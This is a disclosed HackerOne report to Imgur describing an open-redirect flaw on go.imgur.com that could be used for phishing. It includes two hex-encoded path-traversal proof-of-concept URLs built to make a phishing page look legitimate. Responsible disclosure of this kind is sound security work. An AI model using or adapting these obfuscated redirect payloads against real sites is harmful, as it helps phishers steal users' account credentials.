 # Go.imgur.com can be used to phish for account information

## Report Details
- **Report ID**: 384101
- **URL**: https://hackerone.com/reports/384101
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-07-19T10:17:46.443Z
- **Disclosed**: 2018-09-21T06:39:25.238Z

## Reporter
- **Username**: kiyell
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: imgur

## Vulnerability Information
Right now the **go.imgur.com** domain is pointing to `godoc.org/go.imgur.com` but there is nothing at this resource. It is possible with encoded double dots to redirect **go.imgur.com** URLs to pages that phish for imgur account information.

Proof of Concept
===

PoC 1:
###
`http://go.imgur.com/account-verification/%252e%252e%2f%252e%252e%2f%67%69%74%68%75%62%2e%63%6f%6d%2f%6b%69%79%65%6c%6c%2f%70%71`

In this example the URL is customized to appear more legitimate.
Resulting page: F322182



PoC 2: 
###
`http://go.imgur.com/account-verification/%252e%252e%2f%252e%252e%2f%67%69%74%68%75%62%2e%63%6f%6d%2f%6b%69%79%65%6c%6c%2f%70%71%23%68%64%72%2d%57%41%52%4e%49%4e%47%5f%5f%5f%49%4d%50%4f%52%54%41%4e%54%5f%41%43%43%4f%55%4e%54%5f%49%4e%46%4f%52%4d%41%54%49%4f%4e`

In this longer example, code was added that adds emphasis to the phishing message.
Resulting page: F322181

## Impact

An attacker could mass email users for their account information or could use this vulnerability as part of another type of social engineering campaign against Imgur partners and customers.

## Attachments
- imgur_phishing_long_url.JPG
- imgur_phishing_short_url.JPG

